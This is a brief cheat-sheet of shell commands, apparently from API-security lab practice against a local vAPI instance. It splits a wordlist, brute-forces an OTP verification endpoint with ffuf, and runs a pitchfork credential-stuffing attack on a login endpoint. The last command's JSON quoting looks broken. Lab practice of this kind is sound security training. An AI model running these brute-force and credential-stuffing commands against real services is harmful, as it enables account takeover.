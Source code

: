 # Split into 5 files (modify -l for different number of files)
split -l 2000 -d wordlist.txt wordlist_part

## ffuf
ffuf -w list.txt -X POST -d '{"otp":"FUZZ"}' -H "Content-Type: application/json" -u http://localhost/vapi/api4/otp/verify --mc 200 -s

## ffuf pitchfork
ffuf -w emails.txt:FUZZ1 -w pwds.txt:FUZZ2 -d "{"email":FUZZ1,"password":FUZZ2}" -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api2/user/login -fc 401 -mode pitchfork